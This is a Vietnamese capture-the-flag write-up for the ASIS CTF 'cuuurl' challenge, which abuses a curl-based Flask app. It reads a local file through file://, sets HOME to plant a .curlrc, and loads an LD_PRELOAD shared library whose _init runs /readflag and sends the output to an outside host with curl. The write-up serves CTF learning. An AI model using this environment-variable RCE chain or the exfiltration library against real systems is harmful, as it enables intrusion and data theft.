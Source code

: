 ```yaml
---
tag:
   - ctf 
---
```

# asis-ctf

## cuuurl

> cUrl, nhưng không phải Command Injection, mà là Environment Variable to RCE .\_.
>
> Tiếp tục là một bài Whitebox tiếp =))&#x20;

### Walkthrough

Vừa vào thử luôn trang web xem có gì luôn nhỉ&#x20;

![intro](./asisctf/ZEP7IuZqd.png)

Response có đoạn xin chào mình vào để ý ở trên URL thì có đường dẫn tới file. Có vẻ bài này liên quan tới lỗ hổng Arbitrary file read roài.

Thử xem xét mã nguồn luôn nào

```python
@app.route('/')
def index():  # Poor coding skills :( can't even get process output properly
    url = request.args.get('url') or "http://localhost:8000/sayhi"
    env = request.args.get('env') or None
    outputFilename = request.args.get('file') or "myreg rets.txt"
    outputFolder = f"./outputs/{hashlib.md5(request.remote_addr.encode()).hexdigest()}"
    result = ""

    if env:
        env = env.split("=")
        env = {env[0]: env[1]}
    else:
        env = {}

    master, slave = pty.openpty()
    os.set_blocking(master, False)
    try:
        subprocess.run(["/usr/bin/curl", "--url", url], stdin=slave, stdout=slave, env=env, timeout=3, )
        result = os.read(master, 0x4000)
    except:
        os.close(slave)
        os.close(master)
        return '??', 200, {'content-type': 'text/plain;charset=utf-8'}

    os.close(slave)
    os.close(master)

    if not os.path.exists(outputFolder):
        os.mkdir(outputFolder)

    if "/" in outputFilename:
        outputFilename = secrets.token_urlsafe(0x10)

    with open(f"{outputFolder}/{outputFilename}", "wb") as f:
        f.write(result)

    return redirect(f"/view?file={outputFilename}", code=302)
```

Hàm chính được sử dụng ở route index, cho phép tải Url bất kì vào lưu và chỉ định file bất kì vào trong Folder outputs của mình (ở đây được định danh bằng mã hash của remote IP). Tên file cũng được validate để tránh mình đẩy file ra ngoài thư mục được phép. Ngoài ra mình còn được xét biến môi trường tùy ý.

```python 
@app.route('/view')
def view():
    outputFolder = f"./outputs/{hashlib.md5(request.remote_addr.encode()).hexdigest()}"
    outputFilename = request.args.get('file')

    if not outputFilename or "/" in outputFilename or not os.path.exists(f'{outputFolder}/{outputFilename}'):
        return '???', 404, {'content-type': 'text/plain;charset=utf-8'}

    with open(f'{outputFolder}/{outputFilename}', 'rb') as f:
        return f.read(), 200, {'content-type': 'text/plain;charset=utf-8'}
```

Tiếp tục hàm view này trả về nội dung file đã lưu trước đó trong thư mục của mình. Nhưng cũng được validate để tránh đọc file lung tung. Nên cũng không đọc được dữ liệu gì từ đây, bắt buộc phải điều khiển được dữ liệu đầu vào.

Hm...kinh nghiệm mình làm một số bài trước đây thì nếu cUrl cho phép nhập trực tiếp Url thì có thể Command Injection luôn ấy nhỉ? Nhưng giá trị Shell trong trong subprocess không được để là true nên giá trị thì nó cũng đẩy thành string chứ không injection được :disappointed\_relieved: Không lên thẳng được shell phải tìm các lỗ hổng khác xem, mình điều khiển được khá nhiều giá trị mà :-D .

Không thể command injection qua Url nhưng mình có thể điều khiển được nó mà? cUrl hỗ trợ nhiều giao thức [cUrl manual](https://curl.se/docs/manpage.html) trong đó có giao thức file nên mình có thể đi đâu trả được :-D

```shell
➜  ~ curl http://localhost:8000/\?url\=file:///etc/passwd -L

root:x:0:0:root:/root:/bin/bash
...
app:x:1000:1000::/home/app:/bin/sh
```

Nhưng mà flag lại không đọc được :"<

```dockerfile
FROM python:3

RUN apt-get update -y
RUN apt-get install -y curl
RUN pip3 install flask

WORKDIR /app

COPY ./flag.txt /flag.txt
COPY ./stuff/readflag /readflag
COPY ./stuff/app.py ./app.py
RUN chmod 400 /flag.txt
RUN chmod 111 /readflag
RUN chmod +s /readflag
RUN chmod +x ./app.py
RUN useradd -m app
RUN mkdir /app/outputs
RUN chown app /app/outputs


USER app
CMD [ "/app/app.py" ]
```

Quyền sở hữu root, phân quyền 400. Tức là chỉ có root mới đọc được. Nhưng may thay `readflag` được set sticky bit nên nó đọc được, cũng tức là quay lại việc tìm cách RCE chứ không phải chỉ là đọc ghi file.

Quay lại phía trên thì còn biến môi trường mình có thể điều khiển được, cũng tức là đây có thể là lựa chọn duy nhất nếu muốn RCE. Lang thang tìm kiếm theo keyword về việc RCE thông qua biến môi trường thì tìm được bài [Playing with LD\_PRELOAD](https://axcheron.github.io/playing-with-ld\_preload/).

Hmm...Tức là có thể hook được command thông qua set biến môi trường `LD_PRELOAD` à. Tiếp tục đọc thêm vào được giúp đỡ của team mình thì mình định hình được như sau:

* `LD_PRELOAD` là biến được dùng để trỏ đến các thư viện (shared lib) để tải lên trước.
* Các hàm này sẽ được tải lên đầu tiên đồng thời cũng override lại các hàm sau này.
* hàm `void _init()` sẽ được thực thi đầu tiên để khởi tạo nếu cần.
* Tránh đệ quy nếu tiếp tục gọi subprocess thì cần `unset("LD_PRELOAD")` trước khi gọi các subprocess tiếp :"< .

Như vậy là việc đầu tiên cần làm là tạo ra một shared lib để có thể đẩy cho các bước sau đó, để khi thực thi cUrl ta sẽ đặt biến môi trường tới nó để Trigger được lệnh.

Lâu không code `C` với việc ngáo ngơ các biến môi trường trên thì với sự giúp đỡ của team mình tạo được thư viện có thể trigger để làm payload như sau.

```c
#include <stdio.h>
#include <string.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    system("/readflag | curl https://biennd4.free.beeceptor.com/ -d @-");
}
```

Complie nó thành shared lib và đẩy lên server để tẹo tải về bằng cUrl.

```shell
➜  ~ gcc -fPIC -shared -o hsvcs.so hsvcs.c -nostartfiles
```

Tiếp tục kéo về thưc mục của mình và thêm Env thôi nhưng lại có lỗi xảy ra đó là cUrl không hiển thị file binary mà bắt buộc phải đặt output ra file. Nhưng mình có thể chèn thêm được gì ngoài Url đâu :cry:

Tiếp tục một sự giúp đỡ đến từ team HsVcs khi cho biết cUrl sẽ sử dụng config mặc định thông qua `.curlrc`, nó thường lưu tại `$HOME/.curlrc` với HOME ở đây tham khảo [cUrl manual](https://curl.se/docs/manpage.html) là biến môi trường mà mình đặt cho cUrl mà mình có thể điều khiển được biến môi trường. Vậy là việc đầu tiên phải là đẩy lên được file config đẩy lên để sử dụng nó để kéo được thư viện kia về.

```shell
➜  ~ curl http://65.108.152.108:5001/\?url\=https://biennd4.free.beeceptor.com/config\&file\=.curlrc -L                         
--output /tmp/hsvcs.so% 
```

Để kéo thư viện kia về cần trỏ thư mục của mình thành `$HOME`, nó cũng không có gì do việc tính hash remote ip `hashlib.md5(request.remote_addr.encode()).hexdigest()` của mình nhưng không hiểu sao mình dùng VPS mới ra đúng được folder. Hay máy mình dùng IPv6 bị NAT lại thành IPv4 nên có lỗi này nhỉ.

```shell
➜  ~ curl http://65.108.152.108:5001/\?url\=https://d3s34.me/hsvcs.so\&env\=HOME%3D/app/outputs/8821b33244ff93dd962f963b7284dfeb
??%
```

Việc cuối cùng là đặt lại `LD_PRELOAD` để lấy flag thôi :sunglasses:.

```shell
➜  ~ http://65.108.152.108:5001/\?url\=https://d3s34.me/&env=LD_PRELOAD%3d/tmp/hsvcs.so
```


![flag](./asisctf/pw-dIsgsu.png)
